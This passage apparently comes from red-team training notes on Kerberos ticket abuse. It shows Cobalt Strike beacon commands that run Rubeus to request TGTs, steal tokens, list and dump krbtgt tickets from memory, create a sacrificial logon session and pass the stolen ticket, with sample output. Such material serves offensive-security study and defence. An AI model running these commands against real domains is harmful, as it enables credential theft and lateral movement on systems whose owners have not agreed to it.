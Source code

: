 If is on an elevated context, we can do it with Rubeus.


```
beacon> execute-assembly C:\Tools\Rubeus.exe asktgt /user:user /domain:corp.local /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec10 /nowrap /opsec  /createnetonly:C:\Windows\System32\cmd.exe
```
```
beacon> steal_token 3453
```

# Extracting Kerberos Tickets

Instead of craft a TGT we can retrieve it directly from memory.

Rubeus `triage` will list the kerberos tickets in all the logon sessions.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe triage

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

 ----------------------------------------------------------------------------- 
 | LUID    | UserName           | Service            | EndTime               |
 -----------------------------------------------------------------------------
 | 0x462eb | user1 @ CORP.LOCAL | krbtgt/CORP.LOCAL  | 5/12/2021 12:34:03 AM |
 | 0x25ff6 | user2 @ CORP.LOCAL | krbtgt/CORP.LOCAL  | 5/12/2021 12:33:41 AM |
 -----------------------------------------------------------------------------
```

> *Note*: `krbtgt` service means that the ticket is a TGT.

We can extrat it from memory with `dump`.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe dump /service:krbtgt /luid:0x462eb /nowrap
```

Create a sacrificial logon with `createnetonly` and obtain a `LUID` and `ProcessID`.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe

[*] Action: Create Process (/netonly)
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4872
[+] LUID            : 0x92a8c
```

Now with `ptt` we can pass the extracted TGT.

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]

[*] Action: Import Ticket
[*] Target LUID: 0x92a8c
[+] Ticket successfully imported!
```
